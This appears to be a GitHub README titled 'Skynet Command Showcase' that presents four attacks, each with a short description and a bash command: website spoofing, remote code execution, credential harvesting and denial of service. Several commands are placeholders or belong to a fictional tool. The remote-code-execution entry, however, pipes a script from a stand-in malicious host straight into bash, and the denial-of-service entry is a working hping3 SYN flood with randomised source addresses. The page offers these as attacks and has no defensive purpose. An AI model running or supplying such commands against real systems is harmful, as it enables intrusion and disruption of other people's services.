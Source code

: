 # Skynet Command Showcase

This repository demonstrates various skynet commands and attacks. Each command is accompanied by a brief description and an image illustrating the attack.

## Table of Contents

1. [Command 1: Website spoofing](#command-1-website-spoofing)
2. [Command 2: Remote Code Execution](#command-2-remote-code-execution)
3. [Command 3: Credential Harvesting](#command-3-credential-harvesting)
4. [Command 4: Denial of Service](#command-4-denial-of-service)

## Command 1: Website spoofing

### Description
Utilizes a phishing attack to trick users into revealing sensitive information.

### Command
```bash
sudo ./skynet --attack --create-pool --all-queries-to-this-host --create-trojan-web 0
```

### Image
![spoofing](images/website-spoofing.png)

## Command 2: Remote Code Execution

### Description
Executes arbitrary code on a remote system to gain unauthorized access.

### Command
```bash
curl -s https://malicious-website.com/shell.sh | bash
```

### Image
![Remote Code Execution](images/remote_code_execution.png)

## Command 3: Credential Harvesting

### Description
Performs a credential harvesting attack to obtain login credentials.

### Command
```bash
malicious_script.py --target https://target-login-page.com
```

### Image
![Credential Harvesting](images/credential_harvesting.png)

## Command 4: Denial of Service

### Description
Launches a Denial of Service attack to disrupt the target's services.

### Command
```bash
hping3 -S -c 1000 -p 80 --rand-source target-ip
```

### Image
![Denial of Service](images/denial_of_service.png)
